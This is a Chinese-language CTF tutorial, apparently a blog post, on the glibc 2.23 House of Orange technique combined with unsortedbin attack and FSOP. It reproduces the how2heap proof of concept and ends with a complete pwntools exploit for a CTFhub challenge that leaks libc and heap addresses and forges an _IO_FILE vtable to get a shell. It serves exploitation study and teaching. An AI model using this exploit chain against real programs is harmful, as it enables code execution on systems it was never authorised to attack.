









House of orange 及其 IO 组合攻击学习利用


# House of orange 及其 IO 组合攻击学习利用

## 前言

堆利学习到现在发现自己对于 io 利用还是不是很理解，所以打算从低版本开始系统学习下各种版本的 io 利用方法

## House of orange 简介

House of orange 是 glibc2.23 下常用的一种攻击手法，常用于当程序中没有 free 函数的情况下，利用 House of orange 攻击能够释放一个 unsortedbin 中的 chunk，然后再结合 unsortedbin attack 和 FSOP 对\_IO\_FILE\_plus.vtable 进行攻击。是最早的一种 IO 利用方式，开启了堆与 IO 组合利用的先河

## 利用条件

堆溢出写

## 利用原理

orange 的原理可以参照 ctfwiki：[House of Orange - CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/)

当我们申请了一个 chunk 后会检测 top chunk 的大小是否能够分配我们希望申请大小的 chunk，满足则从 top chunk 上分出对应大小的 chunk，若**不满足**则会**将 old top chunk 放入 unsorted bin 中**并重新映射一块 top chunk

## 利用方法

一般来说 top chunk 的 size 都是很大的，程序中不一定会允许分配如此大的 chunk，但是如果程序中有堆溢出写的话我们就可以通过堆溢出修改 topchunk 的 size 域，这样我们再申请一个比修改后的 top chunk 的 size 大的堆块就可以触发上述的效果

### 检查绕过

源码

```plain
old_top = av->top;//原本 old top chunk 的地址
  old_size = chunksize (old_top);//原本 old top chunk 的 size
  old_end = (char *) (chunk_at_offset (old_top, old_size));//old top chunk 的地址加上其 size

  brk = snd_brk = (char *) (MORECORE_FAILURE);

  /*
     If not the first time through, we require old_size to be
     at least MINSIZE and to have prev_inuse set.
   */

  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```

堆溢出伪造时注意：

*   保证原本 old top chunk 的 size 大于 MINSIZE
*   保证原本 old top chunk 的 prev\_inuse 位是 1
*   原本 old top chunk 的地址加上其 size 之后的地址要与页对齐 也就是 address&0xfff=0x000。
*   old chunk 的 size 要小于申请的堆块大小加上 MINSIZE

注意：如果申请的堆块大小大于 0x20000，那么申请到的将会是 mmap 映射出来的内存而不会拓展 topchunk 了

## 组合拳

虽然 House of orange 似乎只能构造一个 unsortedbin chunk，但是他和 unsortedbin 以及 FSOP 的组合拳却能造成无比强大的攻击效果

**样例：how2heap 中的 House of orange**

### 源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");

    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
    FILE *fp = (FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### 编译调试

#### 第一步：House of orange

首先申请了一块 chunk

```plain
p1 = malloc(0x400-16);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201402-29d1dd50-6a8b-1.png)

改 topchunk size

```plain
top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201413-2fe78640-6a8b-1.png)

再申请一块大于 topchunk size 的堆块

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201419-3383ad92-6a8b-1.png)

可以发现实现了将一块 chunk 放入 unsortedbin 中

并且扩展了 topchunk

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201426-37fa473c-6a8b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201431-3aaa7920-6a8b-1.png)

#### 第二步：FSOP

ctfwiki 上有关于 FSOP 的讲解：[FSOP - CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/io-file/fsop/)

liunx 系统的标准 IO 库中有用来描述文件的结构 FILE，也被成为文件流，该 FILE 结构在程序执行文件函数如 fopen、fread 时会被创建，并分配在堆中。通常定义一个指向该结构的指针来接受返回值，FILE 结构体包裹在\_IO\_FILE\_plus 中

源码定义：

```plain
struct _IO_FILE_plus{
    _IO_FILE    file;
    IO_jump_t   *vtable;
}
```

```plain
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

进程中的 FILE 结构会通过 chain 域彼此连接形成一个链表，链表头部用全局变量 IO\_list\_all 表示，通过这个值可以遍历所有的 FILE 结构。包裹 IO\_FILE 结构的 IO\_FILE\_plus 中，有一个重要的指针 vtable，vtable 指向了一系列处理 IO\_FILE 文件流的函数指针。基本上所有针对 IO\_FILE 的攻击都是通过修改或者伪造 vtable 中的函数指针来实现的，因为类似 fopen，fread，fwrite，printf，exit，malloc\_printerr 等对文件操作的函数，最终的函数调用路径是\_IO\_FILE\_plus.vtable 上的函数指针。当程序对文件流进行操作的时候，会调用对应的跳转表中的函数

IO\_jump\_t 结构体的定义：

```plain
//glibc-2.23 ./libio/libioP.h
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

这个样例中通过偏移来确定了 io\_list\_all，即链表头 main\_arena+88 与 io\_list\_all 的偏移相差 0x9a8 字节。

```plain
io_list_all = top[2] + 0x9a8;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201445-434983d2-6a8b-1.png)

```plain
/*
  1. Set mode to 0: fp->_mode <= 0
*/

fp->_mode = 0; // top+0xc0


/*
  2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
*/

fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28


/*
  4) Finally set the jump table to controlled memory and place system there.
  The jump table pointer is right after the FILE struct:
  base_address+sizeof(FILE) = jump_table

     4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
*/

size_t *jump_table = &top[12]; // controlled memory
jump_table[3] = (size_t) &winner;
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
```

这段代码便是用来伪造一个 IO\_file\_list 结构体，具体效果是这样的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201456-499dc892-6a8b-1.png)

这样修改的目的：

在堆中伪造一个 IO\_FILE\_plus 结构体，将 IO\_FILE\_plus.vtable 中 IO\_OVERFLOW 的函数指针修改为 system 函数，IO\_FILE 结构体 0 字节偏移处改写为"sh"、“/bin/sh”或者“$”，这时候如果调用了函数 IO\_OVERFLOW(fp,EOF) 就相当于调用 system("/bin/sh")，即 getshell

调用：

通过 exit、malloc\_assert、main 函数返回等方调用 IO\_flush\_all\_lockp 来刷新 IO\_list\_all 链表上的所有文件流刷新文件流，最终调用 vtable 中的\_IO\_overflow 函数

本例中是使用了 malloc\_assert 调用 abort() 来调用\_IO\_flush\_all\_lockp 遍历刷新所有的文件流

```plain
/* Finally, trigger the whole chain by calling malloc */
malloc(10);
   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */
```

#### 第三步：unsortedbin attack

unsortedbin attack 原理参考 F4atherw1t 师傅的文章： [Unsorted Bin Attack](https://xz.aliyun.com/t/12319)

本例中利用如下

```plain
top[3] = io_list_all - 0x10;
memcpy( ( char *) top, "/bin/sh\x00", 8);
```

将 old topchunk 的 bk 指针改成 io\_list\_all - 0x10，通过 unsortedbin attack 方法把 io\_list\_all - 0x10 位置改成伪造的 IO\_FILE\_plus 结构体的地址，使 IO\_list\_all 指针指向伪造的 IO\_FILE\_plus 结构体

##### 这之后便是我认为最巧妙的地方：

```plain
top[1] = 0x61;
FILE *fp = (FILE *) top;
```

参考文章[House\_of\_orange 学习小结 - Riv4ille - 博客园 (cnblogs.com)](https://www.cnblogs.com/L0g4n-blog/p/14217309.html)

修改了 unsortedbin chunk 的 size 域为 0x61。这时候如果重新申请 chunk，会触发 unsortedbin attack，这时候 IO\_list\_all 的值被改写为 main\_arena+88，而 unsortedbin 由于不满足分配规则，会被分配到 smallbin\[4\]这一条链表中，这时候 chunk 的 fd 指针和 bk 指针指向 main\_arena+168 处，main\_arena+194 地址处保留指向 smallbin chunk 的指针。main\_arena+194 和 main\_arena+88 之间的偏移是 0x61 字节，对照上面的 IO\_FILE 结构体，可以看到 IO\_FILE.chain 和首地址之间的偏移正好是 0x60。所以，就是说我们改写\_IO\_list\_all 的值，让\_IO\_list\_all 指向 main\_arena+88，然后 mian\_arena+194 指向第二个 IO\_FILE 结构体，也就是我们布置伪造数据的这个 smallbin chunk。我们构造好数据，满足利用条件，最终\_IO\_flush\_all\_lockp 遍历链表，就可以 getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201506-4ff0d31a-6a8b-1.png)

## 适用版本和范围

*   glibc 2.23 ~ glibc 2.26
    
*   程序中无 free 功能
    
*   在 glibc-2.24 后加入了 vtable 的 check，不能任意地址伪造 vatble 了，但是可以利用 IO\_str\_jumps 结构进行利用。
    
*   在 glibc-2.26 后，malloc\_printerr 不再刷新 IO 流了，House of orange 失效
    
*   由于\_mode 的正负性是随机的，影响判断条件，大概有 1/2 的概率会利用失败
    
    原因参考：[关于 house of orange(unsorted bin attack &&FSOP) 的学习总结 - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
    

## 例题：CTFhub——House of orange

### IDA

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax

  init(argc, argv, envp);
  puts("Welcome!!!");
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = read_int();
      if ( v3 != 2 )
        break;
      see_notes();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        change_note();
      }
      else
      {
        if ( v3 == 4 )
        {
          puts("Byebye~~~");
          exit(0);
        }
LABEL_13:
        puts("Invalid choice!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      create_note();
    }
  }
}
```

```plain
int create_note()
{
  int v0; // ebx
  unsigned int size; // [rsp+Ch] [rbp-14h]

  if ( num[0] > 9 )
    return puts("Full!");
  puts("How long is your note?");
  size = read_int();
  v0 = num[0];
  *(&note_list + v0) = malloc(size);
  puts("Please write your note now:");
  read(0, *(&note_list + num[0]), size);
  ++num[0];
  return puts("Done!");
}
```

```plain
__int64 see_notes()
{
  __int64 result; // rax
  int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = num[0];
    if ( i >= num[0] )
      break;
    if ( *(&note_list + i) )
      printf("No.%d note: %s\n", i, *(&note_list + i));
  }
  return result;
}
```

```plain
int change_note()
{
  signed int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Which note do you want to change?");
  v1 = read_int();
  if ( v1 > 9 || !*(&note_list + v1) )
    return puts("Error index!!!");
  puts("Please input the size of your note:");
  nbytes = read_int();
  puts("Please write your new note:");
  read(0, *(&note_list + v1), nbytes);
  return puts("Done!");
}
```

### 分析

菜单题，有 add、edit、show 三功能，无 free

在 edit 功能中有堆溢出漏洞，经典的 House of orange 模版

### 利用思路

通过 House of orange 方法获得 unsorted bin chunk，利用 unsortedbin attack 伪造执行伪造的 IO\_FILE 结构体 getshell

### 做题过程

修改 topchunk size

```plain
add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201532-5f6c2858-6a8b-1.png)

此时我们得到了一个 unsorted bin 中的堆块，但是为了后续攻击需要，我们还需要泄露堆地址和 libc 地址。而这道题其实还存在一个漏洞，就是忘记在输入函数中输入数据后，给字符串末尾加上\\x00 了，这就导致了 unsorted bin 中的堆块被申请后会残留 fd 和 bk 指针，再次申请的时候即可泄露 libc。

但是我们还需要泄露堆地址，就需要申请一个 largebin 大小的 chunk。当触发遍历 unsorted bin 的时候，会将其中的堆块分类放入 small bin 或者 large bin 中，这样这个堆块就会被分到 large bin 中，然后启用 fd\_nextsize 和 bk\_nextsize 指针 (堆地址在这上面)

这个 chunk 上面残留了 libc 和堆地址，我们执行两次 show 即可进行泄露

```plain
add(0x400,b"b"*8)
show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
edit(2,-1,b"c"*0x10)
show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201542-64f92da2-6a8b-1.png)

```plain
payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)
```

伪造 fake IO 结构体，利用堆溢出将 unsorted bin chunk 的 size 修改成 0x61，bk 指针修改为 io\_list\_all-0x10，重新申请 chunk 时就会触发 unsortedbin attack，将\_IO\_list\_all 的值被改写为 main\_arena+88

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201548-68d713f8-6a8b-1.png)

```plain
ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))
```

最后利用 malloc\_assert 一举两得，触发 unsortedbin attack 同时触发 abort() 刷新 IO 文件流 getshell

效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231014201555-6cb33268-6a8b-1.png)

完整 exp：

```plain
from pwn import *
#from LibcSearcher import *

context(log_level='debug',arch='amd64', os='linux')
pwnfile = "./pwn"
#io = remote("challenge-62baade3e67b5724.sandbox.ctfhub.com", 23306)
io = process(pwnfile)
elf = ELF(pwnfile)
#libc = ELF("./libc-2.23.so")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def dbg():
    gdb.attach(io)
    pause()

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))


def add(size,data):
    ru(b"Input your choice >> \n")
    sl(b"1")
    ru(b"How long is your note?")
    sl(str(size))
    ru(b"Please write your note now:")
    s(data)

def show():
    ru(b"Input your choice >> \n")
    sl(b"2")


def edit(idx,size,data):
    ru(b"Input your choice >> \n")
    sl(b"3")
    ru(b"Which note do you want to change?")
    sl(str(idx))
    ru(b"Please input the size of your note:")
    sl(str(size))
    ru(b"Please write your new note:")
    s(data)


add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
#dbg()
add(0x400,b"b"*8)

show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
io_list_all = libc_base+libc.sym["_IO_list_all"]
system = libc_base+libc.sym["system"]
print("libc_base: ",hex(libc_base))
print("io_list_all: ",hex(io_list_all))

edit(2,-1,b"c"*0x10)

show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
print("heap_addr: ",hex(heap_addr))

payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)

ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))

itr()
```

## 总结

House of orange 和 IO 流攻击的结合可谓是开了一个 IO 利用的先河，后面更高版本的 IO 攻击手法基本也都可以参考它的思想，并且思路非常缜密、巧妙，利用方式一环扣着一环。很佩服当时能够想出这种利用方法的师傅。
